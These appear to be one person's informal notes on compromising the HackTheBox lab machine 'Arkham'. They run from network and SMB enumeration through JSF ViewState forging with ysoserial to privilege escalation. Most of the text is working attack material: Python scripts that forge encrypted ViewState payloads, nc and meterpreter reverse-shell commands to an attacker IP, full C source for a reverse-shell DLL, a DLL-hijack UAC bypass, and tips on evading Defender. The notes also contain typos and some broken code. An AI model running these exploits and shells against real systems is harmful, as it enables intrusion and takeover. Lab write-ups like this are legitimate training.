


nmap


tcp-connect

```
nmap -oA nmap/tcp-connect 10.10.10.130
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-25 12:31 EDT
Nmap scan report for 10.10.10.130
Host is up (0.044s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http
```

targeted-scan

```
nmap -sC -sV -p80,135,139,445,8080 -oA nmap/targeted-scan-sweep 10.10.10.130                                               
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-25 12:32 EDT
Nmap scan report for 10.10.10.130                                                                                                                            
Host is up (0.045s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8080/tcp open  http          Apache Tomcat 8.5.37
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-title: Mask Inc.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 25s, deviation: 0s, median: 25s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-03-25 12:33:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                         
```

nmap smb scan

```
nmap --script smb-enum-shares.nse -p445 -oA nmap/smb-scan 10.10.10.130
```

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-25 12:44 EDT
Nmap scan report for 10.10.10.130
Host is up (0.042s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 3.81 seconds
```

udp

dig didn't turn anything either

```
dig arkham.htb  ANT @10.10.10.130
```

scanning the initial 1000 ports didn't yield anything which is highly suspicious 

smb enumeration

smb looks promising. 

```
wsmbmap -u guest -H 10.10.10.130 -r                                                                                         
[+] Finding open SMB ports....                                                                                                                               
[+] User SMB session establishd on 10.10.10.130...                                                                                                           
[+] IP: 10.10.10.130:445        Name: 10.10.10.130                                                                                                           
        Disk                                                    Permissions                                                                                  
        ----                                                    -----------                                                                                  
        ADMIN$                                                  NO ACCESS                                                                                    
        BatShare                                                READ ONLY                                                                                    
        ./                                                                                                                                                   
        dr--r--r--                0 Sun Feb  3 08:04:13 2019    .                                                                                            
        dr--r--r--                0 Sun Feb  3 08:04:13 2019    ..                                                                                           
        fr--r--r--          4046695 Sun Feb  3 08:04:13 2019    appserver.zip                                                                                
        C$                                                      NO ACCESS                                                                                    
        IPC$                                                    READ ONLY                                                                                    
        ./                                                                                                                                                   
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    InitShutdown                                                                                 
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    lsass                                                                                        
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    ntsvcs                                                                                       
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    scerpc                                                                                       
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-378-0                                                         
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    epmapper                                                                                     
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-1e0-0                                                         
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    LSM_API_service                                                                              
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    eventlog                                                                                     
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-190-0                                                         
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    atsvc                                                                                        
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-3f4-0                                                         
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    wkssvc                                                                                       
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    spoolss                                                                                      
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    trkwks                                                                                       
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-2a8-0                                                         
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    W32TIME_ALT                                                                                  
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-274-0                                                         
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-288-0                                                         
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    srvsvc                                                                                       
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    vgauth-service                                                                               
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    ROUTER                                                                                       
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER                                                       
        Users                                                   READ ONLY           ./
        dw--w--w--                0 Sun Feb  3 08:24:10 2019    .
        dw--w--w--                0 Sun Feb  3 08:24:10 2019    ..
        dw--w--w--                0 Thu Jan 31 21:49:06 2019    Default
        fr--r--r--              174 Fri Feb  1 11:10:07 2019    desktop.ini
        dr--r--r--                0 Sun Feb  3 08:24:19 2019    Guest
                                                                         

```

BatManShare 

batman left a note to Alfred.


```
Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce          
```

Everything else looks boring, but well check for writeable drives like in sizzle. by mounting the drives and checking the differences when we try and write to the share. So this is a new note when running this little script and it stops thats most likely a writeable drive. In sizzle there were more directories so it wasn't as obivious. 

Guest share is writeable this could be exploited. if psexec.py would detect the share being writeable shme problem with sizzle.

```
for folder in /mnt/arkham/Guest/**/*; do touch "$folder"; done
```




Now on to the impacket enumeration

XD need a password **hmm[**

```
GetUserSPNs.py -request -dc-ip 10.10.10.103 HTB.LOCAL/Administrator
```

Enum4linux failed just ran it with the -a switch

```
enum4linux -a 10.10.10.130
```

Also ran secretsdump running batman, alfred guest as users to login as with no-pass

```
secretsdump.py -just-dc Administrator/guest\@10.10.10.130 -no-pass
```

So I walked away with a backup image of a server, Two user names Bruce & Alfred. What ill need to further some of the things tested domain names & passwords. 

webapp enumerations

Check for sub-domains, enumerate directories, check port 8080, change local dns, & the initial webpage is the default iss webpages. i might be uploading some exploits and using a some kind of exploitable webpage to gain access. Initial Smb enumeration didn't show anything, further investigation will ensue. 

I ran wfuzz it wasn't producing any output check my local dns everything is fine. I believe there may not be any dns for this box because when i just change it to arkham.htb it just hangs. nmap seems to show that there may not be a dns because my udp scan came up empty. 

```
wfuzz -c -f sub-arkham -w /home/htb/wordlist/seclist/Discovery/DNS/subdomains-top1mil-5000.txt -u "http://arkham.htb:8080" -H "Host: FUZZ.arkham.htb" -t 42 --hc 200
```

gobuster going to use iis.txt

Gobuster just produces a bunch of 302 errors. Some kind of waf in place.

```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.130:8080/ -t 4
0 -x aspx,php,asp,net -o gobuster/first.go 
```

```
<pre>/images (Status: 302)
/css (Status: 302)
/js (Status: 302)
/fonts (Status: 302)
</pre>
```

HASHCAT

It's been awhile still hasn't found the password might be something not in rockyou. 

```
hashcat -m 14600 -a 0 -w 3 hashes\backup.img rockyou.txt -o found
```


```
batmanforever
```

Examining Backup.img

it has a the screen play for batmanforever, some pictures of batmans stuff. Some Server Files all of them are pretty meaningless but the .bak file folds some more details about how the web app works. it says the word secret so i dont know quite yet. 

running file on the backup.img reveals that it is a luks encrypted file. 

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns="http://java.sun.com/xml/ns/javaee" xmlns:web="http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd"                                                      
xsi:schemaLocation="http://java.sun.com/xml/ns/javaee http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd"                                                     
id="WebApp_ID" version="2.5">
<display-name>HelloWorldJSF</display-name>
<welcome-file-list>
<welcome-file>index.html</welcome-file>
<welcome-file>index.htm</welcome-file>
<welcome-file>default.html</welcome-file>
<welcome-file>default.htm</welcome-file>
<welcome-file>default.jsp</welcome-file>
</welcome-file-list>
<servlet>
<servlet-name>Faces Servlet</servlet-name>
<servlet-class>javax.faces.webapp.FacesServlet</servlet-class>
<load-on-startup>1</load-on-startup>
</servlet>
<servlet-mapping>
<servlet-name>Faces Servlet</servlet-name>
<url-pattern>*.faces</url-pattern>
</servlet-mapping>
<context-param>
<param-name>javax.servlet.jsp.jstl.fmt.localizationContext</param-name>
<param-value>resources.application</param-value>
</context-param>
<context-param>
<description>State saving method: 'client' or 'server' (=default). See JSF Specification 2.5.2</description>                                                 
<param-name>javax.faces.STATE_SAVING_METHOD</param-name>
<param-value>server</param-value>
</context-param>
<context-param>
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
<context-param>
<description>
This parameter tells MyFaces if javascript code should be allowed in
the rendered HTML output.
If javascript is allowed, command_link anchors will have javascript code
that submits the corresponding form.
If javascript is not allowed, the state saving info and nested parameters
will be added as url parameters.
Default is 'true'</description>
<param-name>org.apache.myfaces.ALLOW_JAVASCRIPT</param-name>
<param-value>true</param-value>
</context-param>
<context-param>
<description>
If true, rendered HTML code will be formatted, so that it is 'human-readable'
i.e. additional line separators and whitespace will be written, that do not
influence the HTML code.
Default is 'true'</description>
<param-name>org.apache.myfaces.PRETTY_HTML</param-name>
<param-value>true</param-value>
</context-param>
</context-param>
<context-param>
<param-name>org.apache.myfaces.DETECT_JAVASCRIPT</param-name>
<param-value>false</param-value>
</context-param>
<context-param>
<description>
If true, a javascript function will be rendered that is able to restore the
former vertical scroll on every request. Convenient feature if you have pages
with long lists and you do not want the browser page to always jump to the top
if you trigger a link or button action that stays on the same page.
Default is 'false'
</description>
<param-name>org.apache.myfaces.AUTO_SCROLL</param-name>
<param-value>true</param-value>
</context-param>
<context-param>
<param-name>com.sun.faces.numberOfViewsInSession</param-name>
<param-value>500</param-value>
</context-param>
<context-param>
<param-name>com.sun.faces.numberOfLogicalViews</param-name>
<param-value>500</param-value>
</context-param>
<listener>
<listener-class>org.apache.myfaces.webapp.StartupServletContextListener</listener-class>                                                                     
</listener>
</web-app>

```

The above code is allot to take in, specifically what caught my eye.

```
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</pavram-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>

```

### decryption

Well, getting closer. so the overall objective i think is to make my own payload and take the hmac and append that to my payload verifing that its the correct one nah. 

anyways managed to decode the message with pycrypto.

viewstate is encrypted & encoded ontop of that it has a hash it uses to verify it hasn't been changed. the cipher used is single des by default( DEFAULT). Then a hash is taken of the encrypted string. All of that is bundled by encoding everything in base64. So to decrypt everything used python module crypto & some other modules but they are pretty common i suppose. i had some trouble getting everything right so i used allot of prints to get the right, output. 


<https://pycryptodome.readthedocs.io/en/latest/src/cipher/des.html?highlight=decrypt%20des>

```
from Crypto.Cipher import DES
from Crypto.Hash import HMAC, SHA1
import base64
import sys
key = b'JsF9876-' # key for for the des encryptions, and SHA hash
cryptext = b'wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RcVjhMDN4sZB70KtDtngjDm0mNzA9qHjYerxo0jW7zu11SwN/t3lVW5GSeZ1PEA3OZ3jFUE='
# the cipher used to decrypt & mode
cipher = DES.net(key, DES.MODE_ECB)
b64 = base64.b64decode(cryptext)
#takes the first 72 bytes of the 92 byte decoded string. hmac takes 20 bytes
# data first 72 bytes the hmac 20bytes so minus the total bityes by 20 to get the data 
# saved both as variables
des = cipher.decrypt(b64[:72])
phac = (b64[-20:])
print(phac)
deslen = len(des)
phaclen = len(phac)
print (phaclen)
print 'decrypted des = ' + (des)
print 'des length = ' + str(deslen)
```

encryptions

encryption need to pad because everything already padded during decryptions seems obivious. then add the padding to cryptext then encrypt that with des and make a hash out of the des encryption. 

```
from Crypto.Cipher import DES
from Crypto.Hash import HMAC, SHA1
import base64
import sys
key = b'JsF9876-'
cipher = DES.new(key, DES.MODE_ECB)
cryptext = b'wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RcVjhMDN4sZB70KtDtngjDm0mNzA9qHjYerxo0jW7zu11SwN/t3lVW5GSeZ1PEA3OZ3jFUE='

des = cipher.decrypt(b64[:72])
phac = (b64[-20:])


with open('joker.ysoserial', 'r') as myfile:
    payload = myfile.read()
    payload = base64.b64decode(payload)
pad = 8 - len(payload) % 8
padding = chr(pad) * pad
payload += padding
enpay = cipher.encrypt(payload)
enpay += phac
en64pay = base64.b64encode(enpay)
print 'payload = ' + (en64pay)
```

CRafting PayloAd

This is a tool for crafting payloads for different json enviroments. apache myface uses commons-code-1.3-3.2.1.jar 

install python3 pycrypt

sudo apt-get install build-essential python3-dev


<https://github.com/frohoff/ysoserial>

<https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html>

```
java -jar ysoserial/ysoserial.jar CommonsCollections1 "cmd.exe ping -c 3 10.10.14.49" > joker.ysoserial
```

```
java -cp ysoserial/ysoserial.jar ysoserial.exploit.RMIRegistryExploit 10.10.14.49 80 CommonCollections1 > gold.txt
```

jsf

java server faces

the server if configured to store everything on the server side. 

<https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a>

trying to find some exploit tools and ran jexboss.py it doens't appear to be vulnerable.

```
./jexboss.py -u http://10.10.10.130:8080/userSubscribe.faces 
```


```
#from Crypto.Util.Padding import pad, unpad
from Crypto.Cipher import DES
from Crypto.Hash import HMAC, SHA1
import base64
import subprocess
import urllib

serial = b'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'

urlvs = urllib.unquote_plus(serial)
rawviewstate = base64.b64decode(urlvs)
viewstate = rawviewstate[:72]
mac = rawviewstate[-20:]

def decrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode) 
    return cipher.decrypt(data)
def encrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode)
    pad = (8 - (len(data) % 8)) % 8
    padded = data + (chr(pad)*pad).encode()
    return cipher.encrypt(padded)


def hmac_vs(data):
    key = 'JsF9876-'
    mode = digestmod=SHA1
    h = HMAC.new(key, data, mode)
    return h.digest()


print (rawviewstate)
decrypted = decrypt_vs(viewstate)
print ('hmac & viewstate encoed')
print (mac)
print (base64.b64encode(decrypted))
print ('original =' + serial)
#put it back together
encrypted = (urllib.quote_plus(encrypt_vs(decrypted)))
encryptvs = (encrypted + (mac).encode("base64"))
print (encryptvs)
meow = (encrypt_vs(decrypted)).encode("base64").replace('\n','')
vsmac = (hmac_vs(viewstate)).encode("base64").replace('\n','')
goldvs = (urllib.quote_plus(meow + vsmac))
print (goldvs)
#testing if i can urllencode at the end x
#this part is basically just adding the padding back because it is removed
endecrypted = encrypt_vs(decrypted)
urlmeow  = (encrypt_vs(decrypted)).encode("base64").replace('\n','')
urlvsmac = (hmac_vs(endecrypted)).encode("base64").replace('\n','')
urlgoldvs = (urllib.quote_plus(urlmeow + urlvsmac))
print (urlgoldvs)
```


```
#from Crypto.Util.Padding import pad, unpad
from Crypto.Cipher import DES
from Crypto.Hash import HMAC, SHA1
import base64
import subprocess
import urllib

command = raw_input('Command: ')
ysoserial = b'java -jar /home/htb/boxes/arkham/ysoserial/ysoserial.jar CommonsCollections1 \'' + command + '\''
payload = subprocess.check_output(ysoserial, stderr=subprocess.STDOUT, shell=True)

def decrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode)
    return cipher.decrypt(data)
def encrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode)
    pad = (8 - (len(data) % 8)) % 8
    padded = data + (chr(pad)*pad).encode()
    return cipher.encrypt(padded)
def hmac_vs(data):
    key = 'JsF9876-'
    mode = digestmod=SHA1
    h = HMAC.new(key, data, mode)
    return h.digest()

#pad payload it needs to be in the padded state to be
#to be hashed/ viewstate to make a proper hash
purevs = encrypt_vs(payload)
encrypted = (encrypt_vs(payload)).encode("base64").replace('\n','')
enmac = (hmac_vs(purevs)).encode("base64").replace('\n','')
pleasesubscribe = (urllib.quote_plus(encrypted + enmac))
print (pleasesubscribe) # why not lol
```

possible avenues to root 5985 winrm but i would need creds still?

smb maybe accessing the smb share locally will give me super powers

i could encode thing and bypass applocker. 

the hints on the forum allude to using soemthing i have access to in the begining. or enumed. 

well just use chisel and try to access winrm since it isn't exposed tot he internet i feel like it may not have any security locally. @@

Well, winrm is most likely one way... but the previous creds and possible usersnames didn't work. Enumerating the user directories. 

interesting directories

```
c:\Users\Default\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch>
```

so internet explorer stores browsin

```
c:\Users\Default\AppData\Roaming\Microsoft\Windows>
sendto had some intersting files. i mgiht need to exfil
```

default user

Note: To enumerate user on a windows system use net user

```
net user
```


So got user as batman using winrm.rb set it to negociate. Used chisel to tunnel a connection to 5985

arkham ran powerup

some ways to enumerate powershell

these are the commandlets used for addministrating localaccounts

```
 Get-Command -Module Microsoft.PowerShell.LocalAccounts 
```

```
Add-LocalGroupMember — Add a user to the local group
Disable-LocalUser —Disable a local user account
Enable-LocalUser — Enable a local user account
Get-LocalGroup — View local group preferences
Get-LocalGroupMember — View the list of all local group members
Get-LocalUser — View a local user account’s preferences
New-LocalGroup — Create a new local group
New-LocalUser — Create a new local user account
Remove-LocalGroup — Remove a local group
Remove-LocalGroupMember — Remove a member from a local group
Remove-LocalUser — Remove a local user account
Rename-LocalGroup — Rename a local group
Rename-LocalUser — Rename a local user account
Set-LocalGroup — Change the settings of a local group
Set-LocalUser — Change the account settings of a local user
```

get-localuser this should print out the users 

```
Get-LocalUser
```

Get-LocalUser this should ouput all the proprties for local user account.

```
Get-LocalUser -Name * | Select-Object *
```

```
Add-LocalGroupMember -Group 'Administrators' -Member ('batman') –Verbose
```

well fuck it im done with this bullshit.

```
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
```

<https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html>

```
SchTasks /Create /SC DAILY /TN ``"NoUAC"` `/TR "C:\tomcat\apache-tomcat-8.5.37\bin\death-PINK.ps1" /ST ``23:``36
```

ugh so tried to bypass the uac by using empires invoke-wscriptbypassuac. The target isn't vulnerable, i think this would have shown up on the powerup scan maybe. the later one worked just as well but failed all the same. the former the nc string is encode in base64. 

<https://github.com/nettitude/PoshC2/blob/master/Modules/Invoke-WScriptBypassUAC.ps1>

```
Invoke-WScriptBypassUAC -payload "powershell.exe -ep Bypass -WindowStyle Hidden -enc LWVuYyAuXG5jLmV4ZSAtZSBjbWQuZXhlIDEwLjEwLjE0LjEyOCA4MDg1"

Invoke-WScriptBypassUAC -payload ".\nc.exe -e cmd.exe 10.10.14.128 8085"
```

finding elevated bianries

list of elevated exe bianries

```

```


```
findstr /C:"<autoElevate>true" C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

Output

```
systemPropertiesAdvanced.exe
        <autoElevate>true</autoElevate
```

```
C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Windows\System32\OpenSSH\;
C:\Users\Batman\AppData\Local\Microsoft\WindowsApps
```


Make a .exe msfvenom shell or nishang

then make a ddl that runs when 

using powerup to find missing dll to hijack

```
IEX(New-Object Net.WebClient).downloadstring("http://10.10.14.128/PowerUp.ps1")
Find-ProcessDLLHijack
```

```
msfenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.128 lport=19135 -f dll > srrstr.dll
```

ROOT

Using msfvenom to make dll doesn't work. micrsoft has been imporving defender. it now detects those and possibly those amde by visual studio. we will first setup a chisel proxie so we can get around the restrictiosn and gian access to winrm locally. Then we will bypass constrained language mode. then pivot into a nc shell and drop our malious dll into C:\Users\Batman\AppData\Local\Microsoft\WindowsApps then we will run systempropertiesadvanced.exe to elvate our session to system nt authority power. You may notice the user doesn't change thats because windows 8 and above the operating system was redesigned. 

phase 1 chisel first well get a shell using the apache myfaces flaw we found. ill setup a python http server to how the files. then setup chisel locally then chisel on the target system. 

```
python3 -m http.server 80
nc -lvnp 10404
```

Run chisel on localhost

```
./chisel server -p 9001 --reverse -v
```

then we will drop the payload to disk. using invoke web request. 

```
powershell iex(IWR "http://10.10.15.136/chisel.exe" -OutFile chisel.exe)
chisel.exe client 10.10.15.136:9001 R:127.0.0.1:10001:localhost:5985
```




we will use the creds found in the smb share to login as alfred ( batmanforever) . once inside there we will find a outlook email bak file that we will decrypt to get batmans creds. This was pretty tough to find the right tool to open the outlook file. pstwalker it will try and get you to pay for stuff but thats not needed with a little tinkering i was able to get the message. 


now we need to edit the winrm ruby script with batmans creds.


now we have to byass the clm enviroment and windows defender. I used a msbuild method to bypass clm.  made the dll manually used mingw to compile the dll. since we landed in a writeable directory that we can execute binaries we don't need to move to another directory. 

```
C:\tomcat\apache-tomcat-8.5.37\bin
```

next we will download the application whitelisting using this msbuild bypass. githublink. we will drop it to disk, then run the bypass. 

```
powershell IWR "http://10.10.15.136/pinkie.csproj" -OutFile pinkie.csproj
c:\windows\microsoft.NET\Framework64\v4.0.30319\MSBUILD.exe pinkie.csproj
```

Creating a DLL without visual studio or msfvenom. 

we will be creating three files, dllmain.cpp, revshell.cpp, and rev_shell.h(header)

dllmain.cpp

```
#include "rev_shell.h"
#include <windows.h>
#include <stdio.h>

BOOL WINAPI DllMain( HINSTANCE hinstDLL,
                        DWORD fwdReason,
                        LPVOID lpReservered)
{
        switch (fwdReason)
        {
        case DLL_PROCESS_ATTACH:
                rev_shell();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```

revshell.cpp

```
#include <stdio.h>                                                                               
#include <string.h>
#include <process.h>
#include <winsock2.h>
#include <ws2tcpip.h>

#pragma comment(lib, "Ws2_32.lib")

#define REMOTE_ADDR "10.10.15.136"
#define REMOTE_PORT "9135"

void rev_shell()
{
        FreeConsole();

        WSADATA wsaData;
        int iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
        struct addrinfo *result = NULL, *ptr = NULL, hints;
        memset(&hints, 0, sizeof(hints));
        hints.ai_family = AF_UNSPEC;
        hints.ai_socktype = SOCK_STREAM;
        hints.ai_protocol = IPPROTO_TCP;
        getaddrinfo(REMOTE_ADDR, REMOTE_PORT, &hints, &result);
        ptr = result;
        SOCKET ConnectSocket = WSASocket(ptr->ai_family, ptr->ai_socktype, ptr->ai_protocol, NULL, NULL, NULL);                                              
        connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        STARTUPINFO si;
        PROCESS_INFORMATION pi;
        ZeroMemory(&si, sizeof(si));
        si.cb = sizeof(si);
        ZeroMemory(&pi, sizeof(pi));
        si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_HIDE;
        si.hStdInput = (HANDLE)ConnectSocket;
        si.hStdOutput = (HANDLE)ConnectSocket;
        si.hStdError = (HANDLE)ConnectSocket;
        TCHAR cmd[] = TEXT("C:\\WINDOWS\\SYSTEM32\\CMD.EXE");
        CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
	    WSACleanup();
}
```

rev_shell.h

```
#pragma Once
void rev_shell();
```

The last part compiling is tricky i used mingw to compile it was able to evade detection. There is a small catch, the library that windows uses to compile this is named differently in the linux enviroment wine etc. The order in which we list the files when it is compiled matters. this switch has to be at the end of the string  -lws2_32. you may also compile this in x64.

https://blog.didierstevens.com/2018/07/10/quickpost-compiling-dlls-with-mingw-on-kali/

```
i686-w64-mingw32-gcc -shared -o DemoDll-x86.dll dllmain.cpp revshell.cpp rev_shell.h -lws2_32
```

this wont work xD but nice for notes below is x64

```
x86_64-w64-mingw32-gcc -shared -o DemoDll-x86.dll dllmain.cpp revshell.cpp rev_shell.h -lws2_32
```

now we will download the malcious dll drop it to disc.we have to name the dll srrstr.dll because thats why systempropertiesadvanced.exe calls.

```
cd C:\Users\Batman\AppData\Local\Microsoft\WindowsApps
```

```
powershell IWR "http://10.10.15.136/DemoDll-x86.dll" -OutFile srrstr.dll
```

powershell IWR "http://10.10.15.136/DemoDll-x86.dll" -OutFile srrstr.dll

now we have to craft a meterpreter shell using msfvenom im going with powershell. but there are other more stealthy options. there are a few missing flags but we don't need those. 

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.15.136 lport=19135 -f psh -o death.ps1
```

now we run the payload in memory and get our meterpreter shell then migrate into a new process. 


A dll is a file a .exe can call if can do a bunch of things it's basically a psedueo module like in python. you can also use it i bleive to allow a program to talk to different laughages .netframeworks. 

```
apt-get install mingw
```


beyond root for later system authority. dl